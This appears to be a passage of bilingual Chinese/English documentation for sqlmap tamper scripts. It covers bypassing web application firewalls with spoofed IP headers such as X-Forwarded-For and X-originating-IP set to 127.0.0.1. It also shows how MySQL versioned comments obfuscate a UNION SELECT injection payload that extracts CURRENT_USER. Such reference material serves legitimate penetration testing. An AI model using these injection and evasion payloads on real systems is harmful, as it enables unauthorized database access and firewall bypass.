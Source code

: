 附加一个HTTP头来 X-originating-IP = "127.0.0.1" 来绕过防火墙

Reference:
* https://web.archive.org/web/20160815052159/http://community.hpe.com/t5/Protect-Your-Assets/Bypassing-web-application-firewalls-using-HTTP-headers/ba-p/6418366

Examples:
```
>> X-forwarded-for: TARGET_CACHESERVER_IP (184.189.250.X)
>> X-remote-IP: TARGET_PROXY_IP (184.189.250.X)
>> X-originating-IP: TARGET_LOCAL_IP (127.0.0.1)
>> x-remote-addr: TARGET_INTERNALUSER_IP (192.168.1.X)
>> X-remote-IP: * or %00 or %0A
```

### versionedkeywords.py

> Encloses each non-function keyword with (MySQL) versioned comment

Requirement:
* MySQL

Tested against:
* MySQL 4.0.18, 5.1.56, 5.5.11

```py
>>> tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')
'1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#'
```

### versionedmorekeywords.py

> Encloses each keyword with (MySQL) versioned comment

Requirement:
* MySQL >= 5.1.13

Tested against:
* MySQL 5.1.56, 5.5.11

```py
>>> tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#')
'1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#'
```

### xforwardedfor.py

> Append a fake HTTP header 'X-Forwarded-For' (and alike)

附加多个虚假的 HTTP 头
```py
headers["X-Forwarded-For"] = randomIP()
headers["X-Client-Ip"] = randomIP()
headers["X-Real-Ip"] = randomIP()
headers["CF-Connecting-IP"] = randomIP()
headers["True-Client-IP"] = randomIP()
headers["Via"] = "1.1 Chrome-Compression-Proxy"
headers["CF-IPCountry"] = random.sample(('GB', 'US', 'FR', 'AU', 'CA', 'NZ', 'BE', 'DK', 'FI', 'IE', 'AT', 'IT', 'LU', 'NL', 'NO', 'PT', 'SE', 'ES', 'CH'), 1)[0]
```

---